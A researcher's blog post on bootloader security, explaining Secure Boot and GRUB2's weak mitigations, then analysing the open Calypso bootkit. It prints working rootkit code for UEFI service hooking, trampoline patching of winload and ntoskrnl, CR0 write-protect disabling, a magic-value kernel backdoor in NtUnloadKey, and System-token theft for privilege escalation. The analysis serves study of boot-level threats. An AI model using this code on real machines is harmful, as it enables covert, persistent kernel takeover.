

# The anatomy of a Bootkit
This year I [discovered](https://www.microsoft.com/en-us/security/blog/2025/03/31/analyzing-open-source-bootloaders-finding-vulnerabilities-faster-with-ai/) some interesting vulnerabilities in [GRUB2](https://www.gnu.org/software/grub/), the de-facto Linux bootloader standard.  
But why are vulnerabilities in a bootloader so interesting? That's what I'd like to explain today.  

## GRUB2 and Secure Boot
Before 2006, Intel-based computers booted into startup firmware code commonly known as the [BIOS](https://en.wikipedia.org/wiki/BIOS) (Basic Input/Output System), which was responsible for hardware initialization and setup of common services to later be used by a [bootloader](https://en.wikipedia.org/wiki/Bootloader). Ultimately, the BIOS would transfer control to a Bootloader coded in Real Mode, which would commonly load an operating system.  
With time, attackers realized there is no root-of-trust verification of bootloaders by the firmware, thus began the era of Bootkits, which are bootloader-based rootkits.  To standardize the boot process, a unified firmware schema to replace BIOS was introduced in 2006, which is currently known as [UEFI](https://en.wikipedia.org/wiki/UEFI) (Unified Extensible Firmware Interface).  
UEFI also helped combat Bootkits, as it offers services that validate bootloaders and its own extensible modules by means of digital signatures. That protocol is known as [Secure Boot](https://learn.microsoft.com/en-us/windows-hardware/design/device-experiences/oem-secure-boot), and is essential to establishing a root of trust for the boot process, in which the firmware verifies UEFI drivers and OS modules with a platform key or a Key Exchange Key, and bootloaders verify the loaded operating system.  
Trust is then achieved with the help of OEMs, which can sign code trusted by Secure Boot, by means of Certificate Authorities (CA). Essentially, OEMs sign code with their private key, and their public key is signed with a root CA, commonly [Microsoft’s UEFI CA](https://uefi.org/sites/default/files/resources/UEFI_Plugfest_2013_-_New_Orleans_-_Microsoft_UEFI_CA.PDF). This is also essential to supporting non-Windows bootloaders such as GRUB2 (which commonly boots Linux) and allowing 3rd party operating systems to benefit from Secure Boot. Since GRUB2 is fully open-sourced, vendors install a small program called a [Shim](https://www.gnu.org/software/grub/manual/grub/html_node/UEFI-secure-boot-and-shim.html), which is signed by Microsoft’s UEFI CA and is responsible for validating the integrity of GRUB2.

### The dangers of GRUB2
Since bootloaders run before operating systems run, they mostly have UEFI-provided services as APIs to rely on. Therefore, bootloaders do not benefit from modern operating systems security features, such as:
-	No-Execute (NX): known in Windows as [DEP](https://learn.microsoft.com/en-us/windows/win32/memory/data-execution-prevention) (Data Execution Prevention), and treats memory page execute protections. Before the introduction of NX, attackers could override return addresses (which are maintained in-memory) and jump to arbitrary code (commonly a [shellcode](https://en.wikipedia.org/wiki/Shellcode)) that could be placed via the provided input.
-	[ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) (Address Space Layout Randomization): randomizes the base address of modules, which makes return address overrides and function pointer overrides highly unreliable, since attackers do not know where usable code might be found.
-	Safe dynamic allocators: dynamic allocations are a favorite target for attackers, and modern operating systems harden their heap allocators with various techniques, including [Safe Unlinking](https://msrc.microsoft.com/blog/2009/05/safe-unlinking-in-the-kernel-pool/), [type-safety](https://security.apple.com/blog/towards-the-next-generation-of-xnu-memory-safety/), Pointer Authentication and [others](https://theapplewiki.com/wiki/Heap_Hardening).
-	[Stack cookies \ Canaries](https://en.wikipedia.org/wiki/Buffer_overflow_protection): those are randomly generated values pushed between the return address and local variables, on the stack, with the intent on detecting changes in their values before using the return address (commonly in a RET instruction).

 Additionally, GRUB2 offers complex logic to deal various features, including:
-	Image file parsers (PNG, TGA and JPEG)
-	Font parsing and support (PF2 file format)
-	Network support (HTTP, FTP, DNS, ICMP, etc.)
-	Various filesystem supportability (FAT, NTFS, EXT, JFS, HFS, ReiserFS, etc.)
-	Bash-like command-line utility
-	Extensible dynamic module loading capabilities

Furthermore, GRUB2 is coded in C, which is considered a memory-unsafe language, and as mentioned, does not benefit from any modern security mitigation. Considering the implication of defeating Secure Boot and strategically assessing the project (e.g. with Google’s [Rule of 2](https://chromium.googlesource.com/chromium/src/+/master/docs/security/rule-of-2.md)), it is clear why GRUB2 should become a lucrative target for vulnerability researchers.

## How does a bootkit work
As we explained, finding a vulnerability in an OEM-trusted bootloader (such as GRUB2) means attackers might be able to bypass Secure Boot.  
Since bootloader usually handle complex inputs, coded in unsafe languages, implement their own heap and do not use modern mitigations - getting arbitrary code execution is quite likely.  
Assuming an attacker is able to achieve arbitrary code execution - what should they do?  
For this I'd like to examine one Bootkit - initially I wanted to examine BlackLotus ([found on Github](https://github.com/ldpreload/BlackLotus/tree/main)) as a modern example, but the source code there actually is missing several key functions used there (and yes, it won't compile).  
I did find one very similar to it called [Calypso](https://github.com/3a1/Calypso/), which is way easier to read, so I will be sticking to it mostly.  
With that, let us examine some source code!  
Remark: in this analysis, I might be skipping some code to make this blogpost more comprehensible. 

### Hooking EFI services
This Bootkit is compiled as an EFI module - essentially, a PE file that can be loaded through UEFI. Therefore, its code will start at an `EfiMain` function, located in `Bootkit/main.cpp`:
```c
EXTERN_C EFI_STATUS EFIAPI UefiMain(IN EFI_HANDLE ImageHandle, IN EFI_SYSTEM_TABLE* SystemTable)
{
    global::RuntimeServices = SystemTable->RuntimeServices;
    global::BootServices    = SystemTable->BootServices;
    global::SystemTable     = SystemTable;

    global::ExitBootServices = global::BootServices->ExitBootServices;
    global::BootServices->ExitBootServices = ExitBootServicesWrapper;

    global::BootServices->CreateEvent(EVT_SIGNAL_VIRTUAL_ADDRESS_CHANGE, TPL_NOTIFY, NotifySetVirtualAddressMap, NULL, &global::NotifySetVirtualAddressMapEvent);

    return EFI_SUCCESS;
}
```

Each `EFI` module gets a pointer to a `SystemTable` which contains a bunch of other tables, which contain function pointers.  
Just like an old bootloader used to call `BIOS interrupts` to use as services (e.g. reading the disk or printing to the terminal), so do `EFI` modules get capabilities.  
The most important piece here is the [BootServices](https://uefi.org/specs/UEFI/2.9_A/07_Services_Boot_Services.html) which contain several functions.  
With that out of the way, the code here is very easy!
1. It saves several pointers in a global namespace (the services and the system table itself).
2. It saves the function pointer to `ExitBootServices` in that global as well, and then hooks it with the `ExitBootServicesWrapper` function. Note `ExitBootServices` is called just before the handoff to the OS kernel, so that's an excellent point to hook! Also note how easy it is to hook when you have function pointers and no page protections - essentially it's a single assignment in C!
3. It creates a callback for `SetVirtualAddressMap`, which we'll be using later

With that, let's continue to the `ExitBootServicesWrapper` function!

### Hooking OslArchTransferToKernel
The `ExitBootServicesWrapper` function (`Bootkit/ExitBootServicesWrapper.asm`) is actually coded in Assembly, but it's so short it's extremely easy to analyze:

```assembly
ExitBootServicesWrapper proc
    mov rax, [rsp]
    mov RetExitBootServices, rax
    jmp ExitBootServicesHook
ExitBootServicesWrapper endp
```

Since the return address is saved in the stack, `mov rax, [rsp]` simply saves that return address in the `RAX` register, puts it in a global called `RetExitBootServices` and transfers control to `ExitBootServicesHook`.  
The `ExitBootServicesHook` function (`Bootkit/ExitBootServices.cpp`) is also easy to read:

```c
EFI_STATUS EFIAPI ExitBootServicesHook(IN EFI_HANDLE ImageHandle, IN UINTN MapKey)
{
    SET_BACKGROUND(EFI_WHITE | EFI_BACKGROUND_RED);
    CLEAR_SCREEN();
    Log("Bootkit hook-chain sequence started");
    SLEEP(500);

    global::winload = memory::get_image_base(global::RetExitBootServices);
    if (!global::winload) 
    {
        Error("Can't find winload base!");
    }
    Log("Successfully found winload base");

    global::OslArchTransferToKernel = memory::scan_section(global::winload, ".text", (uint8_t*)&OslArchTransferToKernelPattern, sizeof(OslArchTransferToKernelPattern));
    if (!global::OslArchTransferToKernel)
    {
        Error("Can't find OslArchTransferToKernel address!");
    }
    Log("Successfully found OslArchTransferToKernel address");

    trampoline::Hook(global::OslArchTransferToKernel, (uint64_t) OslArchTransferToKernelHook, (uint8_t*) &global::OslArchTransferToKernelData);

    Log("ExitBootServices stage complete");
    global::BootServices->ExitBootServices = (EFI_EXIT_BOOT_SERVICES)global::ExitBootServices;
    return global::ExitBootServices(ImageHandle, MapKey);
}
```

The first part simply does some printing and logging, so we'll be skipping that part. The next parts are more interesting:
1. We save the PE image base of `RetExitBootServices` (the global we saved back in the Assembly code). Note `ExitBootServices` was called by `winload` (the Windows bootloader), so the return address for `ExitBootServices` exactly resides in `winload`. The `memory::get_image_base` function is quite heuristic but easy to understand - it searches for PE header ("MZ") in each aligned page, going backwards. I will be explaining it after the overview of this hook.
2. We find the function `OslArchTransferToKernel` function in `winload` by calling `memory::scan_section`, simply by finding a pattern in memory. We will be explaining how it works too, but you can think of it as [memmem](https://www.man7.org/linux/man-pages/man3/memmem.3.html) function in essence. The pattern `OslArchTransferToKernelPattern` is defined in `Bootkit/struct.h` and is defined as the bytes `0x33, 0xF6, 0x4C, 0x8B, 0xE1, 0x4C, 0x8B, 0xEA`, which matches the first few instructions of `OslArchTransferToKernel` function in `winload`.
3. We hook `OslArchTransferToKernel` and divert control to `OslArchTransferToKernelHook`. Note this is a different kind of hook! The previous EFI hook was done with function pointers, but the transition to `OslArchTransferToKernel` does not involve function pointers, so we rely on Trampoline hooking, which is a fancy way of saying we patch the assembly to jump somewhere else.
4. We restore the `ExitBootServices` function which we saved easlier and invoke it to transfer control back to `winload`.

In this code we relied on some utility functions that were also implemented, let's understand them as well.

#### memory::get_image_base
This function finds the base image of an address, heuristically, by going back one page (0x1000 bytes) back each time and seeing if it has a PE header ("MZ" bytes):

```c
uint64_t memory::get_image_base(uint64_t address)
{
	address = address & ~0xFFF;

	do {
		uint16_t value = *(uint16_t*)address;

		if (value == 0x5a4d)
		{
			return address;
		}

		address -= 0x1000;
	} while (address != 0);

	return address;
}
```

The `address & ~0xFFF;` operation simply performs memory alignment to a page (making it divisible by `0x1000` which is a page size).  
From that point of we get the 16-bit value of each memory page and compare to `0x5a4d` (reverse "MZ" since we work in a [Little-Endian](https://en.wikipedia.org/wiki/Endianness) architecture).  
If there is a match then we found the PE file base, otherwise we simply go back one page and try again.

#### memory::scan_section
This function finds a set of bytes (as I mentioned, similar to [memmem](https://www.man7.org/linux/man-pages/man3/memmem.3.html)) but in a defined PE section.  
When we called this function we called it with `".text"`, which is where code commonly resides in PE files.

```c
uint64_t memory::scan_section(uint64_t base_addr, const char* section, uint8_t* pattern, uint64_t pattern_size)
{
	uint64_t section_address = memory::get_section_address(base_addr, section);
	uint32_t section_size = memory::get_section_size(base_addr, section);

	for (uint64_t i = 0; i < section_size; ++i)
	{
		uint64_t current_address = section_address + i;

		if (memory::compare(pattern, (uint8_t*)current_address, pattern_size) == 0)
		{
			return current_address;
		}
	}

	return 0;
}
```

Assuming `memory::get_section_address` gets the section address and `memory::get_section_size` gets the section size, it becomes easy to understand what this code does - it goes byte by byte and compares memory with the pattern.  
There is a minor bug here, by the way - the variable `i` should iterate between `0` and the `section_size` *minus the pattern length*, othersise there might be memory reads outside of the section's limits.  
However, this doesn't really affect anything (keep in mind there are still no memory protection enforcements at this point when it comes to reading, at least) so this bug doesn't realistically manifest to anything noticable.  
Resolving the section address and size by their name is an easy exercise in PE parsing and I will not be covering it, code still exists under `Bootkit/memory.cpp` if you're interested.

#### trampoline::Hook
This function performs Trampoline hooking, i.e. patching the target's machine code with other instructions.  
It's implemented in `Bootkit/trampoline.cpp` and quite easy to understand:

```c
void trampoline::Hook(uint64_t function, uint64_t hook, uint8_t* original_data)
{
	uint8_t trampoline[] = 
	{
		0x48, 0xB8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, /* movabs rax, <address> */
		0xFF, 0xE0													/* jmp rax				 */
	};
	memory::copy(&hook, (uint64_t*)((uint8_t*)trampoline + 2), sizeof(uint64_t));

	memory::copy((uint64_t*)function, (uint64_t*)original_data, TRAMPOLINE_SIZE);

	memory::copy_wp((uint64_t*)trampoline, (uint64_t*)function, TRAMPOLINE_SIZE);
}
```

The trampoline is easy - performs `movabs rax, <address>` and then `jmp rax` to make an absolute jump.  
We do 3 copies:
1. Copy the `hook` value into `trampoline + 2`, which will replace the zeros in the `trampoline` byte array.
2. Copy original `TRAMPOLINE_SIZE` (12) bytes to the `original_data`, since we are going to override those bytes.
3. Copy the `trampoline` bytes into the function, thus installing the hook.

Since we are not in a multi-threaded environment, there are no dangers with that last copy - in a multi-threaded environment you'd have a risk of having some code run in the middle of copying.  
A funny story is that I actually saw that happen live, in a MITRE evaluation - with the exact inline hooking approach - you can read all about it [here](https://www.microsoft.com/en-us/security/blog/2020/06/11/blue-teams-helping-red-teams-a-tale-of-a-process-crash-powershell-and-the-mitre-attck-evaluation/).  
One minor detail is the difference between `memory::copy` and `memory::copy_wp`, which is quite interesting in my opinion.  
Well, `memory::copy` performs the equivalent of [memcpy](https://man7.org/linux/man-pages/man3/memcpy.3.html) (with sub-optimal performance, but I won't talk about that aspect too much) and is trivial.  
The `memory::copy_wp` function is more interesting - it called `memory::copy` wrapped between `__disable_wp` and `__enable_wp` calls. What are those?  
Let's examine `__disable_wp` (`__enable_wp`) does the exact opposite) - it's implemented under `Bootkit/wp.asm`:

```assembly
__disable_wp proc
    cli
    mov rax, cr0
    and rax, 0FFFEFFFFh
    mov cr0, rax
    sti                        
    ret
__disable_wp endp
```

This procedure:
1. Disables all interrupts with `cli`.
2. Modifies the `cr0` register by performing a bitwise AND of it with `0FFFEFFFFh`, which essentially zeros the 16th bit. The 16th bit in the `cr0` register is the `WP` (Write-Protection) bit, which essentially ensures we can write to Read-Only pages. The `cr0` register has other interesting flags that affect how the machine operates - you can read more about it [here](https://en.wikipedia.org/wiki/Control_register).
3. Enables interrupts with `sti`.

So, at this point we have inline-hooked the `OslArchTransferToKernel` function - let's continue!

### Hooking NtUnloadKey
Function `OslArchTransferToKernelHook` is implemented in `Bootkit/OslArchTransferToKernel.cpp` and is supposed to be called instead of `OslArchTransferToKernel` due to the inline (Trampoline) hooking.  
This function is slightly longer than others, but not too terrible to understand:

```c
EFI_STATUS EFIAPI OslArchTransferToKernelHook(uint64_t loader_block_addr, uint64_t entry)
{
    trampoline::Unhook(global::OslArchTransferToKernel, (uint8_t*) &global::OslArchTransferToKernelData);

    global::ntoskrnl = utils::get_module_base((uint64_t)(uint8_t*)(loader_block_addr + 0x10 /* ->LoadOrderListHead */), L"ntoskrnl.exe");
    if (!global::ntoskrnl)
    {
        INFINITY_LOOP();
    }
    Log("ntoskrnl -> %p", global::ntoskrnl);

    global::NtUnloadKey = memory::scan_section(global::ntoskrnl, "PAGE", (uint8_t*)&NtUnloadKeyPattern, sizeof(NtUnloadKeyPattern));
    if (!global::NtUnloadKey)
    {
        global::NtUnloadKey = memory::scan_section(global::ntoskrnl, "PAGE", (uint8_t*)&NtUnloadKeyPattern2, sizeof(NtUnloadKeyPattern2));
        if (!global::NtUnloadKey)
        {
            Error("Can't find NtUnloadKey address!");
        }
    }
    Log("NtUnloadKey -> %p", global::NtUnloadKey);
    
    global::CmUnloadKey = memory::scan_section_ex(global::ntoskrnl, "PAGE", (uint8_t*)&CmUnloadKeyPattern, sizeof(CmUnloadKeyPattern), (uint8_t*)&CmUnloadKeyMask);
    if (!global::CmUnloadKey)
    {
        global::CmUnloadKey = memory::scan_section_ex(global::ntoskrnl, "PAGE", (uint8_t*)&CmUnloadKeyPattern2, sizeof(CmUnloadKeyPattern2), (uint8_t*)&CmUnloadKeyMask2);
        if (!global::CmUnloadKey)
        {
            Error("Can't find CmUnloadKey address!");
        }
    }
    Log("CmUnloadKey -> %p", global::CmUnloadKey);

    trampoline::Hook(global::NtUnloadKey, global::NtUnloadKeyHookAddress, 0);

    return ((EFI_STATUS(*)(uint64_t, uint64_t))global::OslArchTransferToKernel)(loader_block_addr, entry);
}
```

1. At first, we unhook the `OslArchTransferToKernel` original function back. The function `trampoline::Unhook` simply copies the data we backed up earlier (the 12 original bytes) so I will not be ccovering it in detail (it's a one-liner really).
2. We resolve the base of the kernel PE image ("ntoskrnl.exe") from the input `loader_block_addr->LoadOrderListHead`. This is acquired through reverse engineering, but kind of well-known at this point (e.g. [here](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/arc/loader_parameter_block.htm)).
3. At this point we look for the `NtUnloadKey` routine in the `ntoskrnl.exe` module, `CmUnloadKey` function as well and save them. Note there are two patterns of each of those - most likely to account for different Windows versions.
4. We perform a similar trampoline hooking on `NtUnloadKey` to `NtUnloadKeyHookAddress`, and pass control to the original `OslArchTransferToKernel`. Note it was critical to unhook the original function first, otherwise calling `OslArchTransferToKernel` would recursively call the trampoline.

Here in the last part there is a minor subtle detail - where does `global::NtUnloadKeyHookAddress` come from?  
Looking at references to it we see it's being assigned at `Bootkit/main.cpp`:

```c
VOID EFIAPI NotifySetVirtualAddressMap(EFI_EVENT Event, VOID* Context)
{
    global::NtUnloadKeyHookAddress = (uint64_t)NtUnloadKeyHook;
    global::RuntimeServices->ConvertPointer(0, (void**)&global::NtUnloadKeyHookAddress);
}
```

If you recall, this is a callback we assigned at the beginning of this analysis! Why is it necessary?  
Well, up till this point, all the addresses we were dealing with were physcal addresses, but now, with `NtUnloadKey`, we'd like to hook virtual addresses.  
Therefore, we'd like to get the pointer to `NtUnloadKeyHook` *in virtual addresses*, which we do get by calling the `ConvertPointer` UEFI service!  
There is one more subtle point here - note in `trampoline::Hook` we supply `0` to specify we are not interested in storing the original 12 bytes of the `NtUnloadKey` function. This looks very odd since the natural thing would be unhooking and calling it, but there is a good reason for it, which we will cover now.

### The logic of NtUnloadKey
The behavior of the original `NtUnloadKey` is really to call `CmUnloadKey`:

```c
NTSYSAPI 
NTSTATUS
NTAPI
NtUnloadKey(
    IN POBJECT_ATTRIBUTES DestinationKeyName
)
{
    return CmUnloadKey(DestinationKeyName, 0, 0, 0);
}
```

Because of that, when our hook wants to call the original `NtUnloadKey`, it skips a stage and simply calls `CmUnloadKey`. That's the reason we did not need to save the original 12 bytes, and also the reason we were interested in `CmUnloadKey` to begin with. Neat!  
Let's examine the `NtUnloadKeyHook` implementation under `Bootkit/NtUnloadKey.cpp`:

```c
uint64_t NtUnloadKeyHook(uint64_t a1)
{
    command_t cmd = *(command_t*)a1;

    if (cmd.magic == command_magic)
    {
        return dispatcher::Start(cmd);
    }

    return ((uint64_t(*)(uint64_t, uint32_t, uint8_t, uint64_t))global::CmUnloadKey)(a1, 0LL, 0LL, 0LL);
}
```

Easy - this calls the original `CmUnloadKey` with the first argument (and the 3 zeros we've seen earlier) unless the argument that was sent contains some magic value known to the userland part of the bootloader.  
Essentially, `NtUnloadKeyHook` implements a backdoor at the kernel that anyone would be able to run.  
To complete the picture:

```c
#define command_magic 0xDEAD

enum command_type
{
    CopyKernelMemory,
    ReadProcessMemory,
    WriteProcessMemory,
    KillProcess,
    PrivilegeEscalation
};

struct command_t
{
	uint16_t magic;
    command_type type;
    uint64_t data[10];
};
```

The magic should be simply `0xDEAD` constant, and there are several command types - the names are pretty self explanatory.  
Let's examine the `PrivilegeEscalation` command since it's the most interesting one, and with that in mind, examine `dispatcher::Start` under `Bootkit/dispatcher.cpp`:

```c
uint64_t dispatcher::Start(command_t cmd)
{
	switch (cmd.type)
	{
	case ::CopyKernelMemory:
		return CopyKernelMemory(cmd.data);
	case ::ReadProcessMemory:
		return ReadProcessMemory(cmd.data);
	case ::WriteProcessMemory:
		return WriteProcessMemory(cmd.data);
	case ::KillProcess:
		return KillProcess(cmd.data);
	case ::PrivilegeEscalation:
		return PrivilegeEscalation(cmd.data);
	}
}

...

uint64_t dispatcher::PrivilegeEscalation(uint64_t data[10])
{
	uint64_t pid = data[0];
	Log("pid -> %p", pid);

	uint64_t PsLookupProcessByProcessId = memory::get_export_address(global::ntoskrnl, "PsLookupProcessByProcessId");

	uint64_t target_peprocess = 0;
	uint64_t system_peprocess = 0;

	((uint64_t(*)(uint64_t, uint64_t*))PsLookupProcessByProcessId)(pid, &target_peprocess);
	((uint64_t(*)(uint64_t, uint64_t*))PsLookupProcessByProcessId)(4,   &system_peprocess);

	uint64_t system_token = 0;
	/* getting system token from ntoskrnl.exe */
	memory::copy((uint64_t*)((uint8_t*)system_peprocess + 0x4b8 /* ->Token */), &system_token, sizeof(uint64_t) /* sizeof(_EX_FAST_REF) */);
	Log("system_token  -> %p", system_token);
	memory::copy(&system_token, (uint64_t*)((uint8_t*)target_peprocess + 0x4b8 /* ->Token */), sizeof(uint64_t) /* sizeof(_EX_FAST_REF) */);

	return 0;
}
```

The `dispatcher::Start` command will call `dispatcher::PrivilegeEscalation` (assuming the `PrivilegeEscalation = 4` command was given to `NtUnloadKey`).  
From there, it seems we get a target process ID (`pid`) from the user and perform the following:
1. Find the function pointer of `PsLookupProcessByProcessId` from `ntoskrnl.exe` by walking the PE export table.
2. Call `PsLookupProcessByProcessId` on the target process ID to get a pointer to its `EPROCESS`, which is a Windows kernel data that contains metadata about the process, including its privileges.
3. Similarly call `PsLookupProcessByProcessId` on process ID = 4. This process ID is always called `System` and has high privileges.
4. The privileges in `EPROCESS` are saved in a structure called a `Token`. Generally `EPROCESS` is an undocumented opaque structure, but have been [extensively reverse engineered](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/ntos/ps/eprocess/index.htm). As you can see in the link I shared - the token is in offset of `0x4b8` bytes from the start of the `EPROCESS`, but it might change in the future between Windows OS builds. We copy that token to a 64-bit variable.
5. Simply paste the token we saved to the target process `EPROCESS` at the same offset, essentially setting its `Token` to be exactly equal to the `System` process token, giving it high privileges.

This is a bit dangerous since the `0x4b8` offset might change between Windows build versions - I have a better technique that I used to use in the past that dynamically resolves the token offset based on how it's supposed to look like and finding it similarly to the memory search approach the author of this bootkit has done for finding function patterns in modules.  
With this, a userland program can simply call `NtUnloadKey` (which is a System service which normally comes from `ntdll.dll`) and supply the command they wish to run. With arbitrary read and write abilities, the userland process can control the entire kernel!

## Summary
I uploaded the flow from the great [Calypso bootkit Github project](https://github.com/3a1/Calypso) which captures the entire flow really well:


There is one more subject I haven't touched on - my GRUB2 bootloader vulnerabilities could essentially run a bootkit like Calypso and own Windows in a similar way even if [Secure Boot](https://learn.microsoft.com/en-us/windows-hardware/design/device-experiences/oem-secure-boot) is on, but it wouldn't be able to defeat [Bitlocker](https://learn.microsoft.com/en-us/windows/security/operating-system-security/data-protection/bitlocker/)! Why is that? Well, I might create a second blogpost on Measured Boot - let me know if you are interested!  

Cheers again to the owner of Calypso - [3a1](https://github.com/3a1).  

Stay tuned!

Jonathan Bar Or
